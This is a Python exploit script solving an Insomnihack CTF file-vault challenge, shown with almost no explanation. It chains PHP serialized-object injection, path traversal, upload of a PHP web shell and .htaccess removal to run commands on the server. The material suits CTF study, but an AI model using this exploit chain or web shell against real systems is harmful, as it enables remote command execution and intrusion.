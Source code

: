 Here is my full solution in Python.

```python
#!/usr/bin/env python2

import requests
import urllib

URL = "http://filevault.teaser.insomnihack.ch/"
s = requests.Session()

def upload(name, content="GARBAGE"):
    files = {'vault_file': (name, content)}
    params = { "action" : "upload" }
    s.post(URL, params=params, files=files)

def rename(index, new_name):
    data = { "newname" : new_name }
    params = {
        "action" : "changename",
        "i" : index
    }
    s.post(URL, params=params, data=data)

def open_file(index):
    params = {
        "action" : "open",
        "i" : index
    }
    return s.get(URL, params=params).text

newname = "../" * 115 # To overwrite fakename #2
serialized_injection = '";s:1:"e";s:0:"";}i:1;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/b630d75c8dcfee915aec97cc3bb5d1d4c782345b/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"'

# Upload 2 files
upload("A")
upload("B")

# Rename to inject serialized ZipArchiver
rename(1, serialized_injection)
rename(0, newname)

# Upload a shell
upload("shell.php", "<?php system($_GET[cmd]); ?>")

# Cookie received
print " === Cookie === "
print urllib.unquote(s.cookies['files'])

# Trigger .htaccess removal
open_file(1)

shell_url = URL + "sandbox/b630d75c8dcfee915aec97cc3bb5d1d4c782345b/fe95113d494997061044e7142af542e84f3eebbf.php"

response = requests.get(shell_url, params={"cmd" : "cat /flag"})
flag = response.text
print flag
```
